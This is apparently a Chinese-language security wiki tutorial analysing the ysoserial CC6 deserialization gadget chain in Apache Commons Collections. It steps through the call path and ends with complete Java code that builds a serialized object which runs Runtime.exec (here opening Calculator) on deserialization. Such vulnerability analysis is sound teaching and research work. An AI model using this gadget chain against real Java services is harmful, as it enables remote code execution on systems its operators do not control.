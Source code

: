 ```yaml
---
title: CC6分析
date: 2022-03-20 00:00:00
permalink: /sec/vuln/deserialization/cc6
author:
 author: p0jo
 link: https://wiki.pwddd.com
titleTag: 原创 # v1.9.0+
categories:
  - 漏洞原理
  - 反序列化漏洞
tags:
  - 反序列化
  - CC
  - ysoserial
---
```


# CC6 利用链分析

## 背景

我们在分析CC1时使用的jdk版本时8u65，如果使用高于8u71版本的jdk则无法利用CC1链。这是因为在高版本的jdk中改进了AnnotationInvocationHandler的readObject方法的利用逻辑。在ysoserial中，CC6解决了高版本jdk无法使用的问题，是ysoserial比较通用和全能的一条链。但是这条利用链还是需要依靠CommonsCollections3.2.2以下的版本。

## 利用链分析

我们在CC1中分析过，ysoserial中使用的LazyMap和我们使用的TransformedMap有一点区别，lazyMap使用的是AnnotationInvokerHandler的invoke方法调用其set方法。而要执行invoke方法需要包装一个动态代理对象。而本次的CC6链同样是调用lazyMap实现的，后面的都是一致的，只是入口到set方法位置不一致。下面是CC6的调用链。

```text
	Gadget chain:
	    java.io.ObjectInputStream.readObject()
            java.util.HashSet.readObject()
                java.util.HashMap.put()
                java.util.HashMap.hash()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections.map.LazyMap.get()
                            org.apache.commons.collections.functors.ChainedTransformer.transform()
                            org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()
```



从LazyMap的get开始，向上寻找哪里调用了get方法，并且我们参数可控。根据这条gadget chain，我们找到了TiedMapEntry.getValue方法。在getValue中调用了map的get方法。而map是可以通过有参构造传入的。

![image-20220321135701834](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220321135701834.png)

我们尝试构造一下：

```java
package com.pwddd.cc6;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.util.Calendar;
import java.util.HashMap;
import java.util.Map;

public class CC6 {
    public static void main(String[] args) {

        // 1. chains
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class,Class[].class},
                        new Object[]{"getRuntime",null}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, null}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}
                )
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, chainedTransformer);
        // lazyMap.get("bbb");
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aaa");
        tiedMapEntry.getValue();
        
    }
}
```

上面的代码基本都是类似的，后面使用tiedMapEntity封装了lazyMap，并调用getValue方法。能够执行相应的结果。

![image-20220321140942147](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220321140942147.png)



既然到tiedMapEntity这一步能够执行，就需要继续寻找哪里调用了getValue方法。在tiedMapEntity中的hashCode方法中调用了getValue方法。hashCode方法我们已经很熟悉了，在URLDNS中，也是利用了HashMap的hashCode方法。

![image-20220321141259999](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220321141259999.png)

那么我再次尝试调用一下：

```java
TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aaa");
//        tiedMapEntry.getValue();
tiedMapEntry.hashCode();
```

发现是可以的，那么哪里又调用了hashCode方法，并且调用hashCode的对象我们可以控制呢？

在URLDNS中，我们知道HashMap中的hash方法会对我们传入的key做hash，会掉用key的hashCode方法。因此只需要将tiedMapEntity作为HashMap的key即可。

```java
HashMap<Object, Object> hashMap = new HashMap<>();
hashMap.put(tiedMapEntry,"bbb");
```

在put时也会弹出计算器，这是因为在hashMap的put方法中也会计算key的hash值，我们可以先不将我们的chainedTransformer封装进去，这样就无法调用了。

```java
Map lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));

Class<LazyMap> clazz = LazyMap.class;
Field factory = clazz.getDeclaredField("factory");
factory.setAccessible(true);
factory.set(lazyMap,transformers);
```

我们尝试将生成的对象序列化之后，再反序列化。仍然无法弹出计算器。我们跟踪一下代码看一下：

![image-20220321160036361](https://wiki-1251603812.cos.ap-shanghai.myqcloud.com/images/image-20220321160036361.png)

我们看到当执行到这里的时候，map中已经有key为aaa的数据了，那么就不会执行下面的transform方法。因此我们需要把aaa的key移除，这样在反序列化的时候，map里面没有对应的key才可以执行。



完整的代码如下：

```java
public static void main(String[] args) throws Exception {

  // 1. chains
  Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer(
      "getMethod",
      new Class[]{String.class,Class[].class},
      new Object[]{"getRuntime",null}
    ),
    new InvokerTransformer(
      "invoke",
      new Class[]{Object.class, Object[].class},
      new Object[]{null, null}
    ),
    new InvokerTransformer(
      "exec",
      new Class[]{String.class},
      new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}
    )
  };

  ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

  HashMap<Object, Object> map = new HashMap<>();
  Map lazyMap = LazyMap.decorate(map, new ConstantTransformer(1));

  TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "aaa");

  HashMap<Object, Object> hashMap = new HashMap<>();
  hashMap.put(tiedMapEntry, "bbb");
  lazyMap.remove("aaa");

  Field factoryField = LazyMap.class.getDeclaredField("factory");
  factoryField.setAccessible(true);
  factoryField.set(lazyMap,chainedTransformer);


  serialize(hashMap);
  deserialize();
}
```





